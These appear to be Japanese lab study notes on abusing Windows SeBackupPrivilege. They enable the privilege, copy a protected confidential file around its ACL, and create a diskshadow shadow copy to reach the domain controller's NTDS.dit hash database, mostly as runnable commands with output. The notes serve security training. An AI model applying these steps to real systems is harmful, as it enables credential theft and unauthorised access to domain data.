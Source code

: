 SeBackupPrivilege が有効になっていることの確認
- 無効になっている
	- 有効にするために、`Get-SeBackupPrivilege`を使える
```powershell-session
PS C:\htb> whoami /priv

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
```

SeBackupPrivilege の有効化
- 特権が無効になっている場合は、Set-SeBackupPrivilege で有効にできる
```powershell-session
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

保護されたファイルのコピー
- ここまでで、SeBackupPrivilegeが有効になるので、ACL をバイパスし、
-  必要な権限を持たずに機密情報にアクセスできた
```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

PS C:\htb>  cat .\Contract.txt
Inlanefreight 2021 Contract
```

#### NTDS.ditのコピー
- ドメインコントローラーへの攻撃
- ドメインコントローラーにローカルでログオンすることも許可される
	- Active DirectoryデータベースであるNTDS.ditは、ドメイン内の全ユーザーおよびコンピューターオブジェクトのNTLMハッシュが含まれているため、非常に魅力的なターゲットできる
	- このファイルはロックされており、権限を持たないユーザーはアクセスできない
- NTDS.ditファイルはデフォルトでロックされているため、Windowsの diskshadow ユーティリティを使用してCドライブのシャドウコピーを作成し、それをEドライブとして公開することができる
	- シャドウコピー内のNTDS.ditはシステムによって使用されていない状態になるのでロックされない
```powershell-session
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
